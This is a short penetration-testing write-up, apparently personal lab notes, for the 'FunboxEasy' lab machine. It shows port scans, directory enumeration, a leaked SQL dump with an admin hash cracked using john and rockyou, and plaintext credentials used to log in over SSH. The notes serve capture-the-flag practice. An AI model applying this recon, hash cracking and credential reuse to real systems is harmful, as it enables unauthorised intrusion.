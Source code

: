 # FunboxEasy

***

IP=192.168.201.111

## NMAP

| PORT      | STATE | SERVICE |
| --------- | ----- | ------- |
| 22/tcp    | open  | ssh     |
| 80/tcp    | open  | http    |
| 33060/tcp | open  | mysqlx  |

```perl
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2d8516ec584051908ebc8582713132f (RSA)
|   256 b0de9703a72ff4e2ab4a9cd9439b8a48 (ECDSA)
|_  256 9d0f9a26384f0180a7a6809dd1d4cfec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - Http

http-robots.txt: 1 disallowed entry |\_gym

```perl
/index.php            (Status: 200) [Size: 3468]
/index.html           (Status: 200) [Size: 10918]
/profile.php          (Status: 302) [Size: 7247] [--> http://192.168.201.111/index.php]
/header.php           (Status: 200) [Size: 1666]                                       
/store/               (Status: 200) [Size: 3998]                                       
/admin/               (Status: 200) [Size: 3263]                                       
/registration.php     (Status: 200) [Size: 9409]                                       
/logout.php           (Status: 200) [Size: 75]                                         
/robots.txt           (Status: 200) [Size: 14]                                         
/dashboard.php        (Status: 302) [Size: 10272] [--> http://192.168.201.111/index.php]
/secret/              (Status: 200) [Size: 108]                                         
/leftbar.php          (Status: 200) [Size: 1837]                                        
/forgot-password.php  (Status: 200) [Size: 2763]
```

### Fuzzing

/store --> /database --> www\_project.sql

```mysql
INSERT INTO `admin` (`name`, `pass`) VALUES
('admin', 'd033e22ae348aeb5660fc2140aec35850c4da997');
```

```bash
echo 'd033e22ae348aeb5660fc2140aec35850c4da997' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

admin:admin

/store/admin.php



<figure><img src="../../.gitbook/assets/Pasted image 20231024215530.png" alt=""><figcaption></figcaption></figure>

## PrivEsc

ssh: yxcvbnmYYY gym/admin: asdfghjklXXX /store: admin@admin.com admin

```bash
ssh tony@$IP
yxcvbnmYYY
```
